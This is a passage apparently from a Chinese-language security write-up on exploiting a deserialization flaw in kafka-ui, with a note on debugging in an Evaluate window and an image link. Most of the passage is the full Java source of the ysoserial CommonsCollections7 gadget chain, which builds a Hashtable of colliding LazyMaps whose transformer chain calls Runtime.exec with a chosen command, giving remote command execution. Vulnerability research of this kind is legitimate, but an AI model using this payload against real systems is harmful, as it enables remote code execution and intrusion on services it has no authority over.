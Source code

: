 可以在kafka-ui中调试,alt+F8打开Evaluate窗口验证：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Pf9eicDVDMxHzsqicOWhIutJcuCcwt8K3O0aS6fUz5uWdrZIx9UbNRvddrKqPceZSic9NNgBoKuFnv8szD3Lq7tnw/640?wx_fmt=png&from=appmsg "")  
  
  
**第二步：成功利用**  
  
接下来使用YSOSerial自带的**CommonsCollections7**利用链来打远程命令执行反序列化漏洞,Payload如下：  
```
public Hashtable getObject(final String command) throws Exception {
 
    // Reusing transformer chain and LazyMap gadgets from previous payloads
    final String[] execArgs = new String[]{command};
 
    final Transformer transformerChain = new ChainedTransformer(new Transformer[]{});
 
    final Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod",
                               new Class[]{String.class, Class[].class},
                               new Object[]{"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke",
                               new Class[]{Object.class, Object[].class},
                               new Object[]{null, new Object[0]}),
        new InvokerTransformer("exec",
                               new Class[]{String.class},
                               execArgs),
        new ConstantTransformer(1)};
 
    Map innerMap1 = new HashMap();
    Map innerMap2 = new HashMap();
 
    // Creating two LazyMaps with colliding hashes, in order to force element comparison during readObject
    Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
    lazyMap1.put("yy", 1);
 
    Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
    lazyMap2.put("zZ", 1);
 
    // Use the colliding Maps as keys in Hashtable
    Hashtable hashtable = new Hashtable();
    hashtable.put(lazyMap1, 1);
    hashtable.put(lazyMap2, 2);
 
    Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
 
    // Needed to ensure hash collision after previous manipulations
    lazyMap2.remove("yy");
 
    return hashtable;
}
```  
  